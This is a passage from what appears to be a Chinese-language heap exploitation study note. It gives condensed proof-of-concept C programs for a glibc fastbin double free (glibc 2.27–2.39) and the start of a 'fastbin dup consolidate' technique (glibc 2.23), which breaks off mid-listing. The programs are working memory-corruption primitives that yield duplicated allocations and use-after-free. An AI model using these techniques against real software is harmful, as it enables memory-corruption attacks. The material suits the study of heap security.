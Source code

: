 #### glibc2.27 - glibc2.39

##### poc精简

```C
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
	void *ptrs[8];
	for (int i=0; i<8; i++) {
		ptrs[i] = malloc(8);
	}
	for (int i=0; i<7; i++) {
		free(ptrs[i]);
	}
    
	int *a = calloc(1, 8);
	int *b = calloc(1, 8);
	int *c = calloc(1, 8);

	printf("1st calloc(1, 8): %p\n", a);
	printf("2nd calloc(1, 8): %p\n", b);
	printf("3rd calloc(1, 8): %p\n", c);

	free(a);
	free(b);
	free(a);
    
	a = calloc(1, 8);
	b = calloc(1, 8);
	c = calloc(1, 8);
	printf("1st calloc(1, 8): %p\n", a);
	printf("2nd calloc(1, 8): %p\n", b);
	printf("3rd calloc(1, 8): %p\n", c);

	assert(a == c);
}
```



### fastbin dup consolidate

#### POC精简

##### glibc 2.23

```C
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main() {
	printf("This technique will make use of malloc_consolidate and a double free to gain a UAF / duplication of a large-sized chunk\n");

	void* p1 = calloc(1,0x40);

	printf("Allocate a fastbin chunk p1=%p \n", p1);
  	printf("Freeing p1 will add it to the fastbin.\n\n");
  	free(p1);

  	void* p3 = malloc(0x400);
```